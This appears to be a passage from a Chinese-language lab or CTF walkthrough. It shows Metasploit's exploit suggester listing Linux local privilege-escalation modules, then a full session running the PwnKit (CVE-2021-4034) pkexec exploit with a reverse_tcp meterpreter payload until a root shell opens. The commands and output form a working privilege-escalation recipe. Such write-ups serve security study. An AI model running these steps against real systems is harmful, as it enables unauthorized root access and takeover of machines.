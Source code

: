 ```
 6   exploit/linux/local/glibc_realpath_priv_esc                         Yes                      The target appears to be vulnerable.
 7   exploit/linux/local/ntfs3g_priv_esc                                 Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 9   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 10  exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 11  exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.16.pre.0ubuntu1.1 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
...
```



逐个尝试扫描到的漏洞，成功提升权限到 root

```
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set SESSION 1 
SESSION => 1

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LHOST 127.0.0.1 
LHOST => 127.0.0.1

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LPORT 5555
LPORT => 5555

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.qhwyrca
[+] The target is vulnerable.
[*] Writing '/tmp/.wefuymefljbi/kfqdwzcdv/kfqdwzcdv.so' (540 bytes) ...
[!] Verify cleanup of /tmp/.wefuymefljbi
[*] Sending stage (3045380 bytes) to 127.0.0.1
[+] Deleted /tmp/.wefuymefljbi/kfqdwzcdv/kfqdwzcdv.so
[+] Deleted /tmp/.wefuymefljbi/.oniqfxz
[+] Deleted /tmp/.wefuymefljbi
[*] Meterpreter session 2 opened (127.0.0.1:5555 -> 127.0.0.1:54186) at 2025-03-04 10:22:28 +0000

meterpreter > shell
Process 4624 created.
Channel 1 created.
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
